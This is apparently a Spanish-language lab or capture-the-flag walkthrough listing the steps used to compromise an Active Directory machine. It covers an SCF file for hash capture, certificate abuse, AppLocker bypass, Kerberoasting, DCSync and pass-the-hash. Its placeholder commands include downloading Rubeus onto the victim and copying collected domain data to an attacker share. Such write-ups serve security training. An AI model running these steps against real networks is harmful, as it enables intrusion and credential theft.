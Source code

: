 ## Tenicas utilizadas 
- MBCacls Enumeration Malicious SCF File (Getting NetNTLMv2 Hash) 
- Ldap Enumeration (LdapDomainDump) 
- Abusing Microsoft Active Directory Certificate Services Creating Certificate Signing Requests (CSR) [Openssl] 
- CLM / AppLocker Break Out (Escaping ConstrainedLanguage) PSByPassCLM Usage (CLM / AppLocker Break out) Msbuild (CLM / AppLocker Break Out) 
- Kerberoasting Attack (Rubeus) Kerberoasting Attack (Chisel Port Forward - GetUserSPNs.py) 
- WINRM Connections 
- BloodHound Enumeration 
- DCSync Attack (secretsdump.py)
- DCSync Attack (Mimikatz) 
- zPassTheHash (wmiexec.py)
## Procedimiento
- Probar enumerar los recursos compartidos a nivel de red de smb
- Crear una montura del recurso compartido encontrado ``mount -t cifis "/$ip/$ruta" $mntPath``
- Utilizar ``tree -fas`` para enumerar los directorios
- Crear un diccionario potencial de usuarios
- Realizar un ASREProast Attack(**Imposible por que el puerto 88 esta cerrado**)
- Listar los directorios en los que tenemos privilegios de escritura ``smbcacls "//$ip/$recurso" Users/$usuario ``
- Scripting en bash <-
```bash
for directory in $(ls); do

	echo -e "\n[+] Enumerando permiso del directorio $directory:\n"
	echo -e "\t$(smbcacls "//$ip/$ruta" Users/$directory -N | grep "Everyone")"
	 
done
```
- Crear un recurso compartido a nivel de red e inyectar un archivo SCF en el directorio en el que tenemos permisos para intentar que el usuario se atentifique conmigo.
- Cracker el hash
- Intentar un Kerberoasting attack para conseguir un **Ticket Garanting Service**
- No podemos solicitar el TGS porque Kerberos no esta expuesto
- Dumpear la informacion del dominio con **ldapomainDump**
- Fuzzer la pagina web
- Crear claves ``openssl req -newkey rsa:2048 -nodes -keyout $name.key -out $name.csr``, brindar el certificado al ADCS(*Active Directory Certificate Services*)
- Conectarse al winrm: ``evil-winrm -S -c $certificado -k $key -i $ip -u $user -p $password``
- Tirar de bloodhound-python para recolectar informacion del dominio
	- **ALTERNATIVA BLOODHOUND**: SharpHoud, desde adentro de la maquina.
	- Bypassear el CLM(**Constrinet Leanguage Mode**) con **PsByPassCLM.exe** 
	![[Pasted image 20221031192155.png]]
	- Transferir el sharphound de la maquina victima a la maquina atacante. Antes de transferirlo, el recurso creado con impacket debe contar con una contraseña y con un usuario, también nos debemos loggear en la maquina victima; ``net use x: \\$ip\$recursoCompartido /user:$usuario $password`` y posteriormente ``copy $SharpHound.zip x:\$archivo.zip``

- Tirar del repositorio  *ghost-compiled-binaries*, y descargar la utilidad de rubeus.exe, posteriormente lo transferimos a la maquina victima con ``iwr -uri $ip/$recurso -OutFile Rubeus.exe``
- Efectuar el kerberoasting attack con el Rubeus.exe y crackeamos el hash
- Terminamos con un PassTheHash, con wmiexec.py ``$dominio/$user@$ip -hashes :$hash``W